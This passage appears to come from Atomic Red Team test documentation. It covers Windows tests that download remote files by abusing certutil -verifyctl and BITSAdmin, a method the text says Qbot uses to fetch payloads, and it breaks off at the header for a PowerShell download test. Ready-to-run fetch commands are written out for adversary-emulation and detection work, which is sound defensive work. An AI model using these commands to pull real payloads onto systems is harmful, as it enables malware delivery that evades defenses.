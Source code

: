 Use certutil -verifyctl argument to download a file from the web. Note - /verifyctl also works!

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | Path | Atomic-license.txt|

#### Attack Commands: Run with `powershell`!

```powershell
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd_HH_mm)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
```

<br/>
<br/>

## Atomic Test #9 - Windows - BITSAdmin BITS Download

This test uses BITSAdmin.exe to schedule a BITS job for the download of a file.
This technique is used by Qbot malware to download payloads.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of the created BITS job | String | qcxjb7|
| remote_file | URL of file to copy | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | Path | Atomic-license.txt|

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\System32\bitsadmin.exe /transfer #{bits_job_name} /Priority HIGH #{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #10 - Windows - PowerShell Download
